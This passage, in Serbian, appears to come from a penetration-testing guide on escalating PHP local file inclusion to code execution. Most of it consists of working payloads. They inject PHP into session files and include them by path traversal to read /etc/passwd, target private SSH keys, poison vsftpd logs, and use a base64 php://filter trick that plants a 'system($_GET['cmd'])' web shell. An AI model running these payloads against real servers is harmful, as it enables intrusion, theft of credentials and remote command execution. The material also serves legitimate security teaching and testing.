 Proverite da li veb sajt koristi PHP sesije (PHPSESSID)

```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

U PHP-u, ove sesije se čuvaju u datotekama _/var/lib/php5/sess\\_\[PHPSESSID]\_.

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Postavite kolačić na `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Koristite LFI da biste uključili PHP sesijski fajl

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

### Preko ssh

Ako je ssh aktivan, proverite koji se korisnik koristi (/proc/self/status & /etc/passwd) i pokušajte pristupiti **\<HOME>/.ssh/id\_rsa**

### **Preko** **vsftpd** _**logova**_

Logovi za FTP server vsftpd se nalaze na _**/var/log/vsftpd.log**_. U scenariju gde postoji ranjivost lokalnog uključivanja datoteka (LFI), i pristup izloženom vsftpd serveru je moguć, mogu se razmotriti sledeći koraci:

1. Ubacite PHP payload u polje za korisničko ime tokom procesa prijave.
2. Nakon ubacivanja, iskoristite LFI da biste dobili server logove sa _**/var/log/vsftpd.log**_.

### Preko php base64 filtera (koristeći base64)

Kao što je prikazano u [ovom](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64) članku, PHP base64 filter jednostavno ignoriše Non-base64. Možete koristiti to da biste zaobišli proveru ekstenzije datoteke: ako dostavite base64 koji se završava sa ".php", on bi jednostavno ignorisao "." i dodao "php" na base64. Evo primera payload-a:

```url
http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.php

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

### Putem php filtera (bez potrebe za datotekom)
